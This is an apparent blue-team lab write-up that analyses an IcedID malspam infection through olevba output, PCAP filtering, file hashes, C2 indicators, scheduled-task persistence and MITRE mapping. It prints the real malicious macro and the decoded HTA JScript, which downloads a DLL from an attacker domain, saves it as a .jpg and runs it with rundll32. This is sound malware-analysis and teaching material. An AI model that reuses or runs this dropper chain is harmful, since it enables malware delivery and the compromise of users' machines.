







> # IcedID Malware Family

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Q1. What is the sha256 hash for the malspam attachment?](#q1-what-is-the-sha256-hash-for-the-malspam-attachment)
    - [Q2. What is the child process command line when the user enabled the Macro?](#q2-what-is-the-child-process-command-line-when-the-user-enabled-the-macro)
    - [Q3. What is the HTML Application file's sha256 hash from previous question?](#q3-what-is-the-html-application-files-sha256-hash-from-previous-question)
    - [Q4. Based on the previous question, what is the DLL run method?](#q4-based-on-the-previous-question-what-is-the-dll-run-method)
    - [Q5. What is the image file dll installer sha256 hash from previous question?](#q5-what-is-the-image-file-dll-installer-sha256-hash-from-previous-question)
    - [Q6. What are the IP address and its domain name hosted installer DLL?](#q6-what-are-the-ip-address-and-its-domain-name-hosted-installer-dll)
    - [Q7. What is the full URL for the DLL installer?](#q7-what-is-the-full-url-for-the-dll-installer)
    - [Q8. What are the two IP addresses identified as C2 servers?](#q8-what-are-the-two-ip-addresses-identified-as-c2-servers)
    - [Q9. What are the four C2 domains identified in the PCAP file?](#q9-what-are-the-four-c2-domains-identified-in-the-pcap-file)
    - [Q10. After the DLL installer being executed, what are the two domains that were being contacted by the installer DLL?](#q10-after-the-dll-installer-being-executed-what-are-the-two-domains-that-were-being-contacted-by-the-installer-dll)
    - [Q11. The malware generated traffic to an IP address over port 8080 with two SYN requests, what is the IP address?](#q11-the-malware-generated-traffic-to-an-ip-address-over-port-8080-with-two-syn-requests-what-is-the-ip-address)
    - [Q12. The license.dat file was used to create persistance on the user's machine, what is the dll run method for the persistance?](#q12-the-licensedat-file-was-used-to-create-persistance-on-the-users-machine-what-is-the-dll-run-method-for-the-persistance)
    - [Q13. With OSINT, what is the malware family name used in this PCAP capture?](#q13-with-osint-what-is-the-malware-family-name-used-in-this-pcap-capture)
    - [Q14. Based on Palo Alto Unit 42, what is the APT Group name?](#q14-based-on-palo-alto-unit-42-what-is-the-apt-group-name)
    - [Q15. What is the Mitre Attack code for the initial access in this campaign?](#q15-what-is-the-mitre-attack-code-for-the-initial-access-in-this-campaign)

<!-- /TOC -->

## Q1. What is the sha256 hash for the malspam attachment?
After extracting the archive, you will see a `.doc` file, this is the malspam attachment.<br>
```
$ sha256sum docs\ 06.02.2021.doc 
cc721111b5924cfeb91440ecaccc60ecc30d10fffbdab262f7c0a17027f527d1  docs 06.02.2021.doc
```
**Answer:** cc721111b5924cfeb91440ecaccc60ecc30d10fffbdab262f7c0a17027f527d1

## Q2. What is the child process command line when the user enabled the Macro?
Use `olevba` tool to analyze the doc file [https://github.com/decalage2/oletools](https://github.com/decalage2/oletools).<br>
```
$ olevba docs\ 06.02.2021.doc 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.11.2 - http://decalage.info/python/oletools
===============================================================================
FILE: docs 06.02.2021.doc
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO leftSize.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/leftSize'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub autoopen()
initVba
Shell "explorer collectionBoxConst.hta", vbNormalFocus
End Sub
-------------------------------------------------------------------------------
VBA MACRO arrayBBorder.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/arrayBBorder'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub initVba()
Open "collectionBoxConst.hta" & buttTemplateHeader For Output As #1
Print #1, ActiveDocument.Range.Text
Close #1
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |autoopen            |Runs when the Word document is opened        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbNormalFocus       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |collectionBoxConst.h|Executable file name                         |
|          |ta                  |                                             |
+----------+--------------------+---------------------------------------------+

```
At autoopen(), the if user enable macro, it will run command like this.<br>
**Answer:** explorer collectionBoxConst.hta

## Q3. What is the HTML Application file's sha256 hash from previous question?
Use `sha256sum` to calculate value of .hta file.<br>
```
$ sha256sum collectionBoxConst.hta 
b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100  collectionBoxConst.hta
```
**Answer:** b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100

## Q4. Based on the previous question, what is the DLL run method?
Open this .hta file, you will see the base64 string. We notice the string `aGVsbG8`, it split the base64 string into two parts.<br>
<br>
Decode the first part and reverse the string, you will receive
```vb
var dateIntegerR = new ActiveXObject("msxml2.xmlhttp");dateIntegerR.open("GET", "http://coursemcclurez.com/adda/T/5xBOnOkAQixWY7/JQNizzLtuT6BVV0xRecCKVVHAAR6PkgGrIPN/sose5?user=anRsIkfbv&time=0qobcg4DyUX11ZLF5yHrIevFn&page=1K2n8iJ&i9y9SwJu=yVaCtZ9s0gUfn&q=hj9xWh4I6PDdXOPDey&id=Vr4pf&user=mHMoD292T&search=uZVgg21LyVRFdD2FABGZvQlnkM90&q=Dwc1s67MbWC24TGoOjMXC", false);dateIntegerR.send();if(dateIntegerR.status == 200){try{var varLst = new ActiveXObject("adodb.stream");varLst.open;varLst.type = 1;varLst.write(dateIntegerR.responsebody);varLst.savetofile("c:\\users\\public\\collectionBoxConst.jpg", 2);varLst.close;}catch(e){}}
```
It will download a file from internet and save file to Public folder for all access.<br>
Decode the second string,
```vb
var trustReferenceConst = new ActiveXObject("wscript.shell");var bytesLStruct = new ActiveXObject("scripting.filesystemobject");trustReferenceConst.run("rundll32 c:\\users\\public\\collectionBoxConst.jpg,PluginInit");try{repoVObject = trustReferenceConst.CurrentDirectory + "\\collectionBoxConst.hta";bytesLStruct.deletefile(repoVObject);}catch(indexIndexNext){}
```
At here, we see the script call `rundll32` to call external function from the dll.<br>
**Answer:** "c:\windows\system32\rundll32.exe" c:\users\public\collectionboxconst.jpg,plugininit

## Q5. What is the image file dll installer sha256 hash from previous question?
Use `sha256sum` to calculate sha256 value.<br>
```
$ sha256sum collectionBoxConst.jpg 
51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441  collectionBoxConst.jpg
```
**Answer:** 51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441

## Q6. What are the IP address and its domain name hosted installer DLL?
From the first base64 string of previous question, we see the domain hosted the dll.<br>
Use `infection-traffice.pcap` to find IP address of the domain. At packet 6, you will see the request to this domain.<br>
<br>
**Answer:** 45.142.213.105, coursemcclurez.com

## Q7. What is the full URL for the DLL installer?
From Q4, we see the full URL for the DLL.<br>
**Answer:** http://coursemcclurez.com/adda/T/5xBOnOkAQixWY7/JQNizzLtuT6BVV0xRecCKVVHAAR6PkgGrIPN/sose5?user=anRsIkfbv&time=0qobcg4DyUX11ZLF5yHrIevFn&page=1K2n8iJ&i9y9SwJu=yVaCtZ9s0gUfn&q=hj9xWh4I6PDdXOPDey&id=Vr4pf&user=mHMoD292T&search=uZVgg21LyVRFdD2FABGZvQlnkM90&q=Dwc1s67MbWC24TGoOjMXC

## Q8. What are the two IP addresses identified as C2 servers?
Filter dns request, we found three IP addresses but only two IP is the answer.<br>
<br>
**Answer:** 185.33.85.35, 194.5.249.46

## Q9. What are the four C2 domains identified in the PCAP file?
From Q8.<br>
**Answer:** arhannexa5.top, extrimefigim.top, fimlubindu.top, kilodaser4.fit

## Q10. After the DLL installer being executed, what are the two domains that were being contacted by the installer DLL?
After send request to coursemcclurez.com, the DLL send two request to aws.amazon.com and supplementik.top.<br>
**Answer:** aws.amazon.com, supplementik.top

## Q11. The malware generated traffic to an IP address over port 8080 with two SYN requests, what is the IP address?
Filter in Wireshark with `tcp.dstport == 8080 && tcp.flags == 0x002`, you will see two SYN requests. 
<br>
**Answer:** 38.135.122.194

## Q12. The license.dat file was used to create persistance on the user's machine, what is the dll run method for the persistance?
`2021-06-02-scheduled-task.txt` is the XML file of a schrduled task, it defined a task run every one hour. In `<Command>` and `<Arguemtn>` tag, it defined the action will be trigger.<br>
```
$ cat 2021-06-02-scheduled-task.txt 
��<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <URI>\{B9C2BAC4-FDCF-449C-896A-9BEA1C23FBE8}</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger id="TimeTrigger">
      <Repetition>
        <Interval>PT1H</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2012-01-01T12:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
    <LogonTrigger id="LogonTrigger">
      <Enabled>true</Enabled>
      <UserId>user1</UserId>
    </LogonTrigger>
  </Triggers>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>false</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>rundll32.exe</Command>
      <Arguments>"C:\Users\user1\AppData\Local\user1\Tetoomdu64.dll",update /i:"ComicFantasy\license.dat"</Arguments>
    </Exec>
  </Actions>
  <Principals>
    <Principal id="Author">
      <UserId>LAPTOP-SH63S8O\user1</UserId>
      <LogonType>InteractiveToken</LogonType>
      <RunLevel>LeastPrivilege</RunLevel>
    </Principal>
  </Principals>
</Task>
```
**Answer:** C:\Users\user1\AppData\Local\user1\Tetoomdu64.dll",update /i:"ComicFantasy\license.dat

## Q13. With OSINT, what is the malware family name used in this PCAP capture?
Use sha256 value of `Tetoomdu64.dll` then submit to [VirusTotal](https://www.virustotal.com/gui/file/3ed5d0476d1ce4fd325666072983d295609fe94c5b65d5db47a53f462ac7a4dc/detection), this file is flagged ad IcedID.<br>
<br>
**Answer:** IcedID

## Q14. Based on Palo Alto Unit 42, what is the APT Group name?
OSINT on Google, you will see this [link](https://unit42.paloaltonetworks.com/ta551-shathak-icedid/), it refers [TA551](https://attack.mitre.org/groups/G0127/) group.<br>
**Answer:** TA551

## Q15. What is the Mitre Attack code for the initial access in this campaign?
From this image, TA551 get access to target by phishing attack via email.<br>
<br>
Find IcedID on [Mitre](https://attack.mitre.org/software/S0483/), then search `phishing` string.<br>
<br>
**Answer:** T1566.001
